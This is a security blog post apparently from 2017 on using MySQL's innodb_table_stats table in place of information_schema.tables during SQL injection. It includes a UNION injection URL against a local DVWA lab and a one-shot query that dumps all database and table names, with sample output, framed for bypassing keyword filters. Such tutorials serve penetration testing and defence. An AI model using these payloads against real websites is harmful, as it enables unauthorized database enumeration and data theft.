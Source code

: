 ```yaml
---
author: heh3.org
comments: true
date: 2017-02-16 05:48:27+00:00
layout: post
link: http://heh3.org/?p=20
slug: alternative-for-information_schema-tables-in-mysql
title: Alternative for Information_Schema.Tables in MySQL
wordpress_id: 20
categories:
- websec
---
```


# Overview


Starting from MySQL 5.5 and above the default storage engine was known as the InnoDB. In MySQL versions 5.5 and above if you do a “select @@innodb_version” you can see the version of the InnoDB, which is almost same as your MySQL version.
![](https://osandamalith.files.wordpress.com/2017/01/innodb-version.png)

But in MySQL 5.6 and above I noticed 2 new tables by InnoDB. “innodb_index_stats” and “innodb_table_stats”. Both these tables contains the database and table names of all the newly created databases and tables.
The MySQL documentation explains these two tables as follows.


<blockquote>The persistent statistics feature relies on the internally managed tables in the mysql database, named innodb_table_stats and innodb_index_stats. These tables are set up automatically in all install, upgrade, and build-from-source procedures.</blockquote>


For injection purposes let’s take the “innodb_table_stats” table. Unfortunately InnoDB doesn’t store columns.

If you simply do “show tables in mysql” you can view this from your localhost.

![](https://osandamalith.files.wordpress.com/2017/01/tables.png)

If we have a look at the table we can see that we can use this as an alternative for “information_schema.tables”.

    
    <code>select * from mysql.innodb_table_stats;
    </code>


![](https://osandamalith.files.wordpress.com/2017/01/selectall.png?w=600&h=147)


## Injections



    
    <code>select table_name from mysql.innodb_table_stats where database_name=schema();
    </code>


Example using DVWA

    
    <code>http://localhost/dvwa/vulnerabilities/sqli/?id=1' union select 1,group_concat(table_name) from mysql.innodb_table_stats where database_name=schema()%23&Submit=Submit%23
    </code>


![](https://osandamalith.files.wordpress.com/2017/01/dvwa1.png?w=600&h=352)


## Dump in One Shot


Here’s the DIOS query which I made to dump all tables from all databases. You can modify this query to suit your needs. When injecting you may have to URL encode.

    
    <code>concat(0x404f73616e64614d616c6974680a, @@innodb_version ,0x0a,user(),0x0a, schema(), (select (@x) from (select (@x:=0x00), (@number:=0),(select (0) from (mysql.innodb_table_stats) where (@x:=concat(@x,0x0a,lpad(@number:=@number+1,2,0),0x2e20,database_name, 0x202d3e20 ,table_name,0x202d3e20 ,length(table_name)))))x))
    </code>


![](https://osandamalith.files.wordpress.com/2017/01/dios.png?w=600&h=436)

    
    <code>@OsandaMalith
    5.6.34
    root@localhost
    dvwa
    01. dvwa -> guestbook -> 9
    02. dvwa -> users -> 5
    03. mysql -> npn -> 3
    04. security -> emails -> 6
    05. security -> referers -> 8
    06. security -> uagents -> 7
    07. security -> users -> 5
    </code>




## Conclusion


In real world scenarios I’ve came across websites where ‘\or\i’ is being filtered. In these cases we cannot use the word ‘information’ since it contains the word ‘or’. If the InnoDB version is 5.6 or above and the current user can access the ‘mysql’ database then we can use this method to extract the tables names. The same can be applied to MariaDB as well.


## Paper


[https://packetstormsecurity.com/files/140831/Alternative-For-Information_Schema.Tables-In-MySQL.html](https://packetstormsecurity.com/files/140831/Alternative-For-Information_Schema.Tables-In-MySQL.html)
[https://www.exploit-db.com/docs/41274.pdf](https://www.exploit-db.com/docs/41274.pdf)

SQLi is often a cancerous topic, if you plan to copy or share please give credits to the author.
